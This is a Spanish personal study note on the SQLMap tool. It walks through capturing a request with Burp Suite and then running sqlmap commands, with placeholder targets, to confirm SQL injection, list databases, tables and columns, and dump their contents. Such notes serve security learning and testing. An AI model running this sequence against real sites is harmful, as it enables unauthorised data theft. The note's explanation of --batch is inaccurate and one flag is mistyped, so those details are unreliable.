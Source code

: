 # SQLMap

***

* Tags: #herramientas #sql #hacking #exploiting #automático #no\_válido

***

La herramienta **SQLMap** es utilizada como un tipo de explotación automática hacia un servicio que podría ser vulnerable a \[\[SQL Injection]].

Para hacer uso de la herramienta, una vez en la página web en el lugar en el que pensemos que hay una vulnerabilidad a \[\[SQL Injection]], rellenamos el campo a enviar e interceptamos la petición con \[\[Burpsuite]]. Una vez interceptada, la copiamos a un archivo, por ejemplo, request.req.

Una vez tengamos dicho archivo, podemos ejecutar el siguiente comando para ver si muestra algún tipo de vulnerabilidad:

```bash
sqlmap -r request.req -p <parámetro_inyectable> --batch
```

Donde cada parámetro significa lo siguiente:

* `-r`: Indica cuál es la petición (mencionada anteriormente)
* `-p`: Indica cuál es el parámetro de la solicitud que creemos que puede ser vulnerable
* `--batch`: Indica que si encuentra a qué base de datos nos estamos enfrentando, no pruebe vulnerabilidades de otros tipos de bases de datos

Una vez sepamos que la página web es vulnerable, podemos listar las bases de datos existentes ejecutando el siguiente comando:

```bash
sqlmap -r request.req -p <parámetro_inyectable> --batch --dbs
```

Donde el nuevo parámetro significa:

* `-dbs`: Indica que liste las bases de datos existentes

Una vez sepamos las bases de datos existentes, podemos listar las tablas de alguna en específico de la siguiente manera:

```bash
sqlmap -r request.req -p <parámetro_inyectable> --batch -D <db_name> --tables
```

Donde los nuevos parámetros significan:

* `-D`: Indica qué base de datos se va a utilizar
* `--tables`: Indica que queremos que nos muestre las tablas existentes

Una vez sepamos las tablas que existen en una base de datos encontrada, podemos listar las columnas de la siguiente manera:

```bash
sqlmap -r request.req -p <parámetro_inyectable> --batch -D <db_name> -T <table_name> --columns
```

Donde los nuevos parámetros significan:

* `-T`: Indica qué tabla se va a utilizar
* `--columns`: Indica que queremos que nos muestre las columnas existentes

Una vez sepamos las columnas existentes en una tabla, podemos dumpear el contenido de las mismas con el siguiente comando:

```bash
sqlmap -r request.req -p <parámetro_inyectable> --batch -D <db_name> -T <table_name> -C <column_name> --dump
```

Donde los nuevos parámetros significan:

* `-C`: Indica qué columna se va a utilizar
* `--dump`: Indicamos que queremos dumpear el contenido seleccionado, además si se estuvieran mostrando contraseñas cifradas, trataría de descifrarlas

Si queremos enviar una solicitud al proxy (comúnmente lo haremos con \[\[Burpsuite]]), podemos ejecutar el siguiente comando:

```bash
sqlmap -r request.req -p <parámetro_inyectable> --batch --proxy <URL>
```

Donde el nuevo parámetro significa:

* `--proxy`: Indicamos la url de donde queremos establecer el proxy
